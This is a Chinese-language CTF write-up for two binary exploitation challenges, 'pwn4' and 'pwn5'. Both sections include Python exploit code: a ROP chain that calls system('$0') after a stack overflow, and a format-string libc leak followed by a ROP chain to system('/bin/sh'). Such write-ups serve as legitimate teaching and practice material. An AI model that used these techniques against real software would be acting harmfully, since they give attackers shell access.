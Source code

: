 # pwn4

首先这个位置存在一个典型的栈溢出，
![](https://img-blog.csdnimg.cn/20200327125052176.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dsel9sY180,size_16,color_FFFFFF,t_70)

在后面的函数中存在`system()`

![](https://img-blog.csdnimg.cn/20200327125100408.png)
但是我们需要`system('/bin/sh')`，在字符串中查找没有，

但是题目暗示应该是要找到的，这里牵扯到一个知识点：

>   `$0`相当于一个sh的作用。

因此：
![](https://img-blog.csdnimg.cn/20200327125111115.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dsel9sY180,size_16,color_FFFFFF,t_70)

构建在这个位置就可以了。

我们的payload:

```python
sh = 0x0060111F
sys_addr = 0x400570
pop_rdi = 0x4007D3
payload = flat([b'a'*0x18, pop_rdi, sh, sys_addr])
```

# pwn5

在main 函数可以看到两个重要的漏洞

![](https://img-blog.csdnimg.cn/20200327125120104.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dsel9sY180,size_16,color_FFFFFF,t_70)
一个格式化字符串和一个栈溢出。

我们要构造rop链，而且这个位置看到nc没开启，直接第一个格式化字符串漏洞打印出来libc的基地址，然后下面在栈溢出构造一个system的rop

```python
payload1 = "%11$p"
ru("?\n")
sl(payload1)
rl()
libc_main = int(rl(),16)
success(hex(libc_main)) 
obj = LibcSearcher('__libc_start_main_ret', libc_main)
libc_base = libc_main - obj.dump('__libc_start_main_ret')

sys_addr = obj.dump('system') + libc_base
sh_addr  = obj.dump('str_bin_sh') + libc_base
gezi = '鸽子'
zhenxiang = '真香'
payload = (gezi + zhenxiang).ljust(0x28, 'a')
payload += p64(0x400933) + p64(sh_addr) + p64(sys_addr)
ru('?')
sl(payload)
```

另外要注意中文的出现，要在最开始注明`# coding=utf-8`

